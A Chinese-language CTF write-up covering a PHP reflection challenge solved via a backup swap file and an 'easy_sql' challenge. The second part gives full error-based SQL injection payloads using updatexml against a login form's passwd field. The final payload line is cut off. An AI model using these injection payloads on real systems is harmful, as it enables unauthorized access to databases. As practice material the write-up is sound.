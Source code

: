 用 dirsearch 扫了一下

没什么收获

![微信图片_20210516204855](C:\Users\luorui\Desktop\111\微信图片_20210516204855.png)

尝试查看备份文件，在.index.php.swo 看到源码

![微信图片_202105162048551](C:\Users\luorui\Desktop\111\微信图片_202105162048551.png)

通过审计代码，构造

Payload：?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment

// 通过 ReflectionMethod(‘User’，‘a’)去查看 a 下的注释

通过 ReflectionMethod(‘User’，‘a’)去查看 a 下的注释

然后进行爆破得到 flag

![微信图片_202105162048552](C:\Users\luorui\Desktop\111\微信图片_202105162048552.png)



easy_sql 

测试发现有报错回显，且是在passwd处 后又发现可以进行堆叠注入 

![微信图片_20210516205319](C:\Users\luorui\Desktop\111\微信图片_20210516205319.png)

基于俩者有大概思路构造payload 

先查询表 

 uname=admin&passwd=123') or updatexml(1,concat(0x7e,(select * from(select * from flag a join (select * from flag)b using(id,no))c),0x7e),1);#&Submit=登录 

![微信图片_202105162053191](C:\Users\luorui\Desktop\111\微信图片_202105162053191.png)

再根据表名进行注入

发现flag

uname=admin&passwd=123') or (updatexml(1,concat(0x7e,mid((select group_concat(`bbb3e6fa-9ea8-46b1-9f94-39e9279fe323`) from flag),1),0x7e),1));#&Submit=登录 

![微信图片_202105162053192](C:\Users\luorui\Desktop\111\微信图片_202105162053192.png) 

flag不完整，继续查看 

![微信图片_202105162053194](C:\Users\luorui\Desktop\111\微信图片_202105162053194.png)

得到完整flag uname=admin&passwd=123') or (updatexml(1,concat(0x7e,mid((select group_concat(`bbb3e6fa-9ea8-46b1-9f94-39e9279fe323`) fro

#  总结

接下来几周就做sqllab了，每周几题吧，顺便练一下写脚本，写脚本能力是真的菜，五题做下来还是有所收获的

明白了sql的一些基本的东西，第一次自己去写sql脚本,去了解request那些库的一些东西，自己感觉还可以吧。